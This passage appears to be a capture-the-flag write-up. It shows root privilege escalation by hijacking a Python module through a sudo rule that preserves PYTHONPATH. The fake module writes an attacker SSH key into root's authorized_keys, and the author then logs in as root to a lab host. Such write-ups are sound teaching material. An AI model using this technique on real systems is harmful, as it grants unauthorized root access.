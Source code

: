 Some context here:
We have `env_keep+=PYTHONPATH` which allows us to add other paths where python can find the libraries.

and the scripts imports `compare` as libary.
We can create a new script in our home folder called `compare.py`

And then try to mimic the function `compare.Str`.
In our new libary, we call `os.system` and we try to write our ssh-key to `/root/.ssh/authorized_keys`.
> NOTE: I'm using the same public key as `wes`, you could create another key if you want to, but I preferred to not to.

```python
import os
class compare:
  def Str(s1, s2, s3):
    os.system("mkdir /root/.ssh; echo ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCR/VjkHMmpgmgKeuZrSX10wxCDp9ML34CEqvZjkEcy/5IusFxFpm8ECp2Sn2sPz9a5W6FB0YfvjmJnI2wxvtE= jackrendor >> /root/.ssh/authorized_keys")
```
Now, we have to change hte `PYTHONPATH` env. In this way, python will look up for the library in our directory.
```bash
export PYTHONPATH=$(pwd):$PYTHONPATH
```
Now we execute the python script with sudo:
```bash
sudo /usr/bin/python3 /opt/development/test_module.py
```
We can see some strange output:
```
mkdir: cannot create directory ‘/root/.ssh’: File exists
None
```
But it doesn't matter that `mkdir` failed, because it actually wrote the ssh key in the `/root/.ssh/authoridez_keys` because otherwise we would've get another error.

Now, on our machine, we can once again use ssh but this time we're gonna use the username `root`. Same as we did before.

```bash
ssh -i wes root@10.10.148.90
```

![](/assets/Clipboard_2021-03-01-08-23-30.png)
